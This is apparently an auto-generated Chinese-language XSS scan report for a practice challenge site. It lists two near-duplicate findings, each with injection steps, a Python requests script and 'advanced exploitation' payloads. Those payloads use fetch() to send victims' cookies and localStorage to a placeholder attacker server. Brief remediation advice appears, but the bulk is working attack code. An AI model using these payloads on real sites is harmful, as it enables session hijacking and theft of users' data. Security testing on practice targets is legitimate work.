 ### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: medium
- 验证载荷: <svg onload=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   <svg onload=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '<svg onload=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: medium
- 验证载荷: javascript:alert(1)
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   javascript:alert(1)
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': 'javascript:alert(1)'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```
